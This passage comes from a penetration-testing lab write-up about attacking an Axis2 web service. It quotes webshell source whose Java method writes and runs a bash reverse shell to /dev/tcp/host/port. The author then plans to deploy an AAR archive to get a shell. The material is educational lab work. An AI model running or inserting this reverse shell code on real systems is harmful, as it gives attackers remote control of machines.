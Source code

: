 Hmm... We got permission denied...

To figure out why, we should dig through the source code.

If you look at [the source code of the `Utils` class](https://github.com/tennc/webshell/blob/master/other/Axis2Shell/Utils.java), you'll see why this is happening:

```java
ppublic class Utils {
    [...]
    public static String shell(String host, int port) {
        [...]
        if (os.startsWith("linux")) {
                    
            String name="wooyun.sh";
            File file=new File(name);
            
            FileWriter writer=new FileWriter(file);
            writer.write("/bin/bash -i > /dev/tcp/"+host+"/"+port+" 0<&1 2>&1"+"\n");
            writer.flush();
            writer.close();
            Runtime.getRuntime().exec("chmod u+x "+name);
            Process process = Runtime.getRuntime().exec("bash "+name);
            process.waitFor();
            
            file.delete();
        } [...]
    }
    [...]
```

As you can see, the reverse shell payload is being written into the disk, and the filename is `wooyun.sh`. However, **it's written into the current work directory**, which may or may not have enough privilege to write files into that directory.

To solve this problem and get a shell on the target machine, we can deploy our own AAR archive file:

But before we do that, we should check the target machine's JDK (Java) version. To do so, we can go back to endpoint `/axis2/` and view the target's environment variables:

![](https://github.com/siunam321/CTF-Writeups/blob/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212221310.png)
